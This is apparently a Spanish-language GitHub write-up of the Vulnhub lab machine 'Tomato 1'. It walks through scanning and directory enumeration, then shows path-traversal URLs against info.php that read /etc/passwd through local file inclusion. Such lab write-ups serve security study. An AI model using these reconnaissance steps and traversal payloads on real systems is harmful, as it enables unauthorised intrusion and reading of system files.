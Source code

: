 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=3CF700FF&width=300&height=80&lines=TOMATO_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/tomato-1,557/

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i eth0
```
![1](https://user-images.githubusercontent.com/75953873/174927688-71985557-4e9d-4790-acac-a8b1da611f48.png)

IP host: `192.168.1.10`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.10
```
![2](https://user-images.githubusercontent.com/75953873/174929092-202e91f9-f6d3-428b-a8f9-a952095f67f8.png)

Puertos abiertos: [21,80,2211,8888]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,80,2211,8888 -A 192.168.1.10
```
![3](https://user-images.githubusercontent.com/75953873/174929490-44875da3-9b11-4e39-ba9d-0d7be8d85aac.png)

Servidor corriendo: **HTTP Apache**

O.S: Linux (**Ubuntu**)

URL del servidor: `http://192.168.1.10`

![4](https://user-images.githubusercontent.com/75953873/174928906-0bf0a1e9-d580-4d8f-ae94-0c0bbb3a73b6.png)

En el puerto `8888` se encuentra corriendo el servidor Nginx (`http:192.168.1.10:8888`).

![5](https://user-images.githubusercontent.com/75953873/174929899-11ad2340-d883-4fff-8eb2-d68a7dd8b67d.png)

- *Paso 4:* Enumerar archivos y directorios con Dirb. 
```
dirb http://192.168.1.10 /usr/share/dirb/wordlists/common.txt
```
![6](https://user-images.githubusercontent.com/75953873/174931398-0e9f0007-7245-408a-b4d1-d89c6f3e30ae.png)

Directorio: `http://192.168.1.10/antibot_image/`

Al inspeccionar el código del archivo `info.php`, indica en un comentario que es posible subir una imagen con el método GET.
```
curl http://192.168.1.10/antibot_image/antibots/info.php
```
![7](https://user-images.githubusercontent.com/75953873/174932206-434978d3-3417-4eb4-bd3f-cbce7b934c87.png)

- *Paso 5:* Búsqueda de vulnerabilidad LFI (Inclusión de archivos locales).

Herramienta Tester: https://github.com/kostas-pa/LFITester

```
python3 LFITester.py --url "http://192.168.1.10/antibot_image/antibots/info.php?image="
```
![8](https://user-images.githubusercontent.com/75953873/174933626-66285afb-399e-4266-9317-9f0beccbda36.png)

URL: 
```
Opción 1) http://192.168.1.10/antibot_image/antibots/info.php?image=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd

Opción 2) http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../etc/passwd
```
LFI Payloads: https://github.com/rezaJOY/Local-File-Inclusion-Payloads

![9](https://user-images.githubusercontent.com/75953873/174934453-b1182f6c-2ce0-4028-8947-d357988b8c4d.png)

